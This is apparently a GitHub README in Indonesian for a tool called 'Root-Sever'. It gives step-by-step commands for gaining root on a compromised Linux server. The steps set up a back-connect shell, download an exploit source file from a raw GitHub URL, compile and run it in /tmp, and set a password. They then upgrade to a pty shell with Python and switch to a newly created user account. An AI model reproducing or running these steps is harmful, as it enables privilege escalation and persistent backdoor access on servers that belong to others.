 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# command nya
cd /tmp
<br>
mkdir demon
<br>
cd demon
<br>
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
<br>
chmod +x g7
<br>
./g7
<br>
lalu buat password baru dan tunggu proses selsai (agak lama)
<br>
id ganestseven
<br>
python -c 'import pty; pty.spawn("/bin/sh")'
<br>
su ganestseven
<br>
lalu id lagi
<br>


